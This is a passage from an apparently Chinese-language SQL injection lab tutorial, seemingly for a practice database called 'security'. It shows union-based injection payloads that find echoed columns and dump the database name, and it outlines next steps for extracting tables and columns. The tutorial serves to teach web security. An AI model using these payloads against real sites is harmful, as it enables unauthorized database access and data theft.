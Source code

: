 ![select](/images/sql/select.png)
&emsp;&emsp;可以看到2，3被回显出来，因此可以在2，3的位置插入语句。
```
?id=-1'union select 1,2,3--+
```
&emsp;&emsp;第三步:爆库(不爆也行)，爆表，爆列，爆字段。可以插入语句了，我们就使用固定公式就可以了。  
&emsp;&emsp;爆库,这里为security
![sql1-爆库](/images/sql/sql1-爆库.png)
```
?id=-1'union select 1,database(),3--+
```
&emsp;&emsp;爆表，这里emails,referers,uagents,users